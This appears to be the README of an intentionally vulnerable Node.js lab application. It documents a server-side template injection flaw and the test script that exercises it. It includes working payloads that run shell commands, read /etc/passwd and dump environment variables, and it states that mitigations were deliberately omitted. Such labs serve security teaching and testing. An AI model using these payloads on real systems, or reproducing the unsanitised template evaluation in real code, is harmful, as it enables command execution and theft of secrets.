 # Server-Side Template Injection (SSTI) Vulnerability

This document describes the Server-Side Template Injection vulnerability implemented in the application and how to test it.

## Overview

The application's template rendering feature is vulnerable to SSTI attacks, allowing attackers to:
- Execute arbitrary system commands
- Access the file system
- Read sensitive information
- Make network requests

## Test Cases

### Running Tests

Use `devops/test.sh` with the following patterns:

```bash
# 1. Run all vulnerability tests
./devops/test.sh

# 2. Run all tests for a specific vulnerability type
./devops/test.sh ssti    # Run all SSTI tests
./devops/test.sh ssrf    # Run all SSRF tests

# 3. Run specific test case for a vulnerability
./devops/test.sh ssti test_03_code_execution   # Test command execution
./devops/test.sh ssti test_04_file_system_access   # Test file system access
./devops/test.sh ssti test_06_sensitive_data_access   # Test sensitive data access
```

### Test Cases Overview

1. `test_01_template_endpoints_exist`: Verifies that all required template endpoints exist and work correctly
2. `test_02_basic_template_rendering`: Tests basic template variable substitution
3. `test_03_code_execution`: Demonstrates arbitrary command execution via template injection
4. `test_04_file_system_access`: Shows ability to read sensitive files like `/etc/passwd`
5. `test_06_sensitive_data_access`: Accesses sensitive application data like environment variables

### Vulnerability Examples

1. Basic Template Rendering:
```javascript
${(() => "Hello World")()}
```

2. Command Execution:
```javascript
// Execute echo command
${(() => require("child_process").execSync("echo test").toString())()}

// Get user context
${(() => require("child_process").execSync("id").toString())()}
```

3. File System Access:
```javascript
// Read sensitive file
${(() => require("fs").readFileSync("/etc/passwd", "utf8"))()}

// List directory contents
${(() => require("child_process").execSync("ls -la /").toString())()}
```

4. Sensitive Data Access:
```javascript
// Access environment variables
${(() => JSON.stringify(process.env))()}

// Get Node.js process info
${(() => JSON.stringify({version: process.version, arch: process.arch, platform: process.platform}))()}
```

## Impact

The SSTI vulnerability allows attackers to:
1. Execute arbitrary commands with root privileges
2. Access sensitive system files
3. Read environment variables and application secrets
4. Monitor system resources and processes
5. Potentially pivot to other systems in the network

## Mitigation (Not Implemented)

For educational purposes, the following mitigations are intentionally NOT implemented:
1. Input validation and sanitization
2. Template sandboxing
3. Restricted execution context
4. Proper template engine configuration
5. Least privilege principle 